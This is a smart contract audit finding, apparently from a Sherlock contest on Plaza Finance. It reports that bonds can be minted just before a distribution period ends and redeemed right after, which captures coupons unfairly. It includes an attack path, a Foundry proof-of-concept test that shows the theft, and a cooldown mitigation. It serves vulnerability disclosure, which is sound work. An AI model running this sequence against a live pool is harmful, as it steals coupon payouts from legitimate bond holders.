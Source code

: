 Jovial Turquoise Scallop

High

# Users can add just-in-time liquidity to steal coupons

### Summary

Current protocol allows users to create bond tokens right before a distribution period ends, and then redeem reserve tokens right after next period starts, to still earn/still coupons for assets they had deposited.

### Root Cause

The issue stems from having no cooldown duration between bond token creation and redemption in [Pool.sol](https://github.com/sherlock-audit/2024-12-plaza-finance/blob/14a962c52a8f4731bbe4655a2f6d0d85e144c7c2/plaza-evm/src/Pool.sol#L383-L387)

### Internal Pre-conditions

- Current period is about to end.
- Collateral level stays above 1.2 so that bond price is always 100 USD, for creation and redemption.

### External Pre-conditions

The attacker creates bond tokens with just-in-time liquidity.

### Attack Path

- Current period is about to end.
- An attacker creates bonds, e.g 100 BondToken
- Current period has ended, and a new period is started by starting an auction.
- The attacker then redeems reserve token by burning 100 BondTokens.
- After the auction ends, the attacker claim his coupon tokens from `Distributor` contract.

### Impact

The attacker steals tokens from the pool, and the loss is distributed to bond holders by downgrading collateral level.

### PoC

Here's a test case written using Foundry that demonstrates the ability to steal coupons using just-in-time liquidity. This can be tested as a part of `Pool.t.sol`.

```solidity
  function testAuditJustInTimeLiquidity() public {
    Token rToken = Token(params.reserveToken);
    Token usdc = Token(params.couponToken);

    vm.startPrank(governance);
  
    // Mint reserve tokens
    rToken.mint(governance, 1e18); // 1 ETH = 3000 USDC
    rToken.approve(address(poolFactory), 1e18);

    // Create pool and approve deposit amount
    params.sharesPerToken = 5 * 1e6; // 5 USDC coupon per 1 BondToken
    Pool _pool = Pool(poolFactory.createPool(params, 1e18, 10e18, 100e18, "", "", "", "", false)); // collateralLevel = 3 > 1.2, 1 BondToken = 100 USDC
    
    // 90 days distribution period and 10 days auction period
    _pool.setDistributionPeriod(90 days);
    _pool.setAuctionPeriod(10 days);

    vm.stopPrank();

    // User2, a JIT depositor mints BOND
    vm.warp(block.timestamp + 90 days - 1);
    mockPriceFeed.setMockPrice(3000 * int256(CHAINLINK_DECIMAL_PRECISION), uint8(CHAINLINK_DECIMAL));

    vm.prank(governance);
    rToken.mint(user2, 1e18);

    vm.startPrank(user2);
    rToken.approve(address(_pool), 1e18);
    _pool.create(Pool.TokenType.BOND, 1e18, 30e18); // Creates 30 BondToken
    vm.stopPrank();

    // Time passes by after distribution period, and auction starts
    vm.warp(block.timestamp + 2);
    _pool.startAuction();

    // User2 redeems his token
    vm.prank(user2);
    _pool.redeem(Pool.TokenType.BOND, 30e18, 1e18); // Redeem 30 BondToken, in exchange for 1 ETH

    // The auction is processed
    Auction auction = Auction(_pool.auctions(0));

    vm.startPrank(user);
    usdc.mint(user, 5000e18);
    usdc.approve(address(auction), type(uint256).max);
    auction.bid(1e4, auction.totalBuyCouponAmount());
    vm.stopPrank();

    // End auction and distribute coupon
    vm.warp(block.timestamp + 10 days);
    auction.endAuction();
    _pool.distribute();

    Distributor distributor = Distributor(poolFactory.distributors(address(_pool)));

    // User2 claims coupon token from Distributor contract
    vm.prank(user2);
    distributor.claim();

    vm.assertEq(usdc.balanceOf(user2), 150e18);
  }
```

### Mitigation

Cooldown mechanism has to be implemented so that token redemption could be processed after distribution period since bond creation.